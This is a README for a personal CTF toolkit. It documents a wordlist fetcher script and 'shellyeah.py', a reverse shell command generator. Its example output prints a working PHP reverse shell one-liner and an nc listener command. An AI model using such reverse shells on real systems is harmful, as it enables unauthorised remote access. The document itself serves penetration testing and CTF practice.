 # ctf_tools
CTF tools crafted for my personal needs.

## wl_fetcher.sh
`wl_fetcher.sh` or WL-fetcher (wordlist fetcher), which is a single tool to fetch wordlists from multiple sources into the provided directory.

List of fetched worlists are hard coded. Modify the list to fit your needs. Perhaps this tool will be modified later to support list of repositories as a parameter.

### Usage
```sh
$ mkdir wordlists/
$ chmod +x wl_fetcher.sh
$ ./wl_fetcher.sh -d wordlists/  # Fetches the wordlists
$ ./wl_fetcher.sh -u wordlists/  # Fetches changes for the wordlists
```

#### Example
```sh
$ ./wl_fetcher.sh -h
__          ___          ______   _       _               
\ \        / / |        |  ____| | |     | |              
 \ \  /\  / /| |  ______| |__ ___| |_ ___| |__   ___ _ __ 
  \ \/  \/ / | | |______|  __/ _ \ __/ __| '_ \ / _ \ '__|
   \  /\  /  | |____    | | |  __/ || (__| | | |  __/ |   
    \/  \/   |______|   |_|  \___|\__\___|_| |_|\___|_|   

Usage: ./wl_fetcher.sh [OPTION] [DIRECTORY]
Fetches wordlists into the provided directory.

Options:
-h, --help             Display this help message
-d, --directory        Specify the directory to fetch wordlists into
-l, --list             Lists repos from which wordlists are fetched
-u, --update           Fetches updates for wordlists (if available)
```

## shellyeah.py
`shellyeah.py` is a CLI tool for generating reverse shell commands.
### Usage:
```sh
$ python3 shellyeah.py -a 127.0.0.1 -p 1234 -s "php exec"
$ python3 shellyeah.py  # List parameters and available shell commands
```

If you want to simplify things:
```sh
$ sudo ln -s [<Path to shellyeah.py>]/shellyeah.py /usr/local/bin/shellyeah
$ chmod +x shellyeah
$ shellyeah -h
 _______________________________________
< Shell Yeah! - Reverse Shell Generator >
 ---------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\

usage: rev_shell_gen.py [-h] -a ADDRESS -p PORT -s {busybox nc,bash -i,php cmd,php exec,powershell}
rev_shell_gen.py: error: the following arguments are required: -a/--address, -p/--port, -s/--shell
```

#### Examples
```sh
$ python3 shellyeah.py -a 1.2.3.4 -p 1234 -s "php exec"

 _______________________________________
< Shell Yeah! - Reverse Shell Generator >
 ---------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\

Listener command:
nc -lvnp 1234

Reverse shell command:
php -r '$sock=fsockopen("1.2.3.4",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
